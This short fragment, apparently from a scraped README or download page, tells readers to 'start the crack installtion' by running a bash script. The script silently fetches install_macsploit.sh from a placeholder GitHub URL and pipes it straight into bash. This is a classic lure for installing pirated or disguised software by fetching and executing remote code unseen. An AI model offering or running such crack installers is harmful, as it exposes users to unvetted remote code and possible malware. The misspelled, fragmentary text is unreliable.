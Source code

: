 Run this script to sttart the crack installtion


#!/bin/bash

SCRIPT_URL="https://raw.githubusercontent.com/your-username/your-repository/main/install_macsploit.sh"

clear

curl -s "$SCRIPT_URL" | bash
